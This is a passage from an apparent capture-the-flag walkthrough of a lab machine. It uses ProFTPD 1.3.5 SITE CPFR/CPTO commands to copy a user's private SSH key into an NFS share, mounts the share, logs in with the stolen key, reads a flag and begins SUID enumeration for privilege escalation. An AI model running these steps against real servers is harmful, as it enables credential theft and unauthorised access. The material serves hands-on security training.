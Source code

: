 ```
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [<Target_IP_Address>]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
quit
221 Goodbye.
```

We used the commands to copy the ssh key to the VAR share that we have access as well from the rpcbind port 111 enumeration we did earlier.

##### Mount the rpcbind "var" share to retrieve key

mkdir in the mnt directory: `sudo mkdir /mnt/PWNED` Mount the share to your newly created directory: `sudo mount <Target_IP_Address>:/var/ /mnt/PWNED/` Let's verify that our ssh key was indeed copied to the `tmp` directory: `ls /mnt/PWNED/tmp/`:

```
id_rsa
systemd-private-2408059707bc413cd.service-a5PktM
systemd-private-6f4acd341c0b405cd.service-z5o4Aw
systemd-private-931a76a2d5e442fcd.service-NXA548
systemd-private-e69bbb0653ce4eecd.service-zObUdn
```

Let's copy the key to our local drive: `cp cp /mnt/PWNED/tmp/id_rsa .` Next we need to change the permissions of the ssh key or else we might get a complaint about the ssh key being too open (after all, it is a sensitive item as we are about to find out): `sudo chmod 0600 id_rsa` Now we can leverage that to login to the target machine: `sh kenobi@<Target_IP_Address> -i id_rsa`

Checking the contents of the home directory for the kenobi user we find a user.txt which containts the flag: `ls`

```
share   user.txt
```

`cat user.txt`

### Task 3 - Privilege Escalation with Path Variable Manipulation

Lets first understand what what SUID, SGID and Sticky Bits are.

| Permission | On Files | On Directories |
| --- | --- | --- |
| SUID Bit | User executes the file with permissions of the file owner | \- |
| SGID Bit | User executes the file with the permission of the group owner. | File created in directory gets the same group owner. |
| Sticky Bit | No meaning | Users are prevented from deleting files from other users. |

##### Enumerate SUID files

`find / -perm -u=s -type f 2>/dev/null`
